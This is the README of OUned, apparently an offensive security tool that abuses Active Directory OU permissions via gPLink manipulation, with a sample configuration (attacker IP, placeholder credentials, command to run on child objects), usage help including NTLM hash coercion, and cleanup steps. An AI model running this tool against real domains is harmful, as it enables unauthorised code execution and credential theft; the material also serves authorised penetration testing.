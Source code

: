 # OUned

The OUned project, an exploitation tool automating Organizational Units ACLs abuse through gPLink manipulation.

# Configuration file

OUned arguments are provided through a configuration file - an example file is provided in the repository, `config.example.ini`. 

Each entry is described by a comment, but for detailed configuration instruction, please refer to the article mentioned in the introduction above.
```ini
[GENERAL]
# The target domain name
domain=corp.com

# The target Organizational Unit name
ou=ACCOUNTING

# The username and password of the user having write permissions on the gPLink attribute of the target OU
username=naugustine
password=Password1

# The IP address of the attacker machine on the internal network
attacker_ip=192.168.123.16

# The command that should be executed by child objects
command=whoami > C:\Temp\accounting.txt

# The kind of objects targeted ("computer" or "user")
target_type=user


[LDAP]
# The IP address of the dummy domain controller that will act as an LDAP server
ldap_ip=192.168.125.245

# Optional (used for sanity checks) - the hostname of the dummy domain controller
ldap_hostname=WIN-TTEBC5VH747

# The username and password of a domain administrator on the dummy domain controller 
ldap_username=ldapadm
ldap_password=Password1!

# The ID of the GPO (can be empty, only needs to exist) on the dummy domain controller
gpo_id=7B7D6B23-26F8-4E4B-AF23-F9B9005167F6

# The machine account name and password on the target domain that will be used to fake the LDAP server delivering the GPC
# Do not forget to escape '%' signs by doubling them ! (e.g. '%%')
ldap_machine_name=OUNED$
ldap_machine_password=some_very_long_random_password_with_percent_signs_escaped

[SMB]
# The SMB mode can be embedded or forwarded depending on the kind of object targeted
smb_mode=forwarded

# The name of the SMB share. Can be anything for embedded mode, should match an existing share on SMB dummy domain controller for forwarded mode
share_name=synacktiv

# The IP address of the dummy domain controller that will act as an SMB server
smb_ip=192.168.126.206

# The username and password of a user having write access to the share on the SMB dummy domain controller
smb_username=smbadm
smb_password=Password1!

# The machine account name and password on the target domain that will be used to fake the SMB server delivering the GPT
# Do not forget to escape '%' signs by doubling them ! (e.g. '%%')
smb_machine_name=OUNED2$
smb_machine_password=some_very_long_random_password_with_percent_signs_escaped
```

# OUned usage

The only mandatory argument when running OUned is the `--config` flag indicating the path to the configuration file. 

The `--just-coerce` and `coerce-to` flags are used for SMB authentication coercion mode, in which OUned will force SMB authentication from 
OU child objects to the specified destination - for more details, see the article linked in the introduction.

Regarding the `--just-clean` flag, see the next section.

```
podman build -t ouned .

podman run -it --name ouned ouned

python3 ./OUned.py --help
                                                                                                                                                                                    
 Usage: python3 ./OUned.py [OPTIONS]                                                                                                                                                          
                                                                                                                                                                                    
╭─ Options ────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ *  --config               TEXT  The configuration file for OUned [default: None] [required]                                                                                      │
│    --skip-checks                Do not perform the various checks related to the exploitation setup                                                                              │
│    --just-coerce                Only coerce SMB NTLM authentication of OU child objects to the destination specified in the --coerce-to flag, or, if no destination is           │
│                                 specified, to a local SMB server that will print their NetNTLMv2 hashes                                                                          │
│    --coerce-to            TEXT  Coerce child objects SMB NTLM authentication to a specific destination - this argument should be an IP address [default: None]                   │
│    --just-clean                 This flag indicates that OUned should only perform cleaning actions from specified cleaning-file                                                 │
│    --cleaning-file        TEXT  The path to the cleaning file in case the --just-clean flag is used [default: None]                                                              │
│    --verbose                    Enable verbose output                                                                                                                            │
│    --help                       Show this message and exit.                                                                                                                      │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
```

# About cleaning

By default and as explained in the article, OUned will perform cleaning actions and among others restore the original gPLink value in the target domain. In case the exploit could not exit properly, OUned creates a cleaning file each time the exploit is executed, that can be used later on to restore legitimate values by using the `--just-clean` flag; for instance:

```bash
$ python3 OUned.py --config config.example.ini --just-clean --cleaning-file cleaning/FINANCE/2024_04_14-05_02_46.txt
```
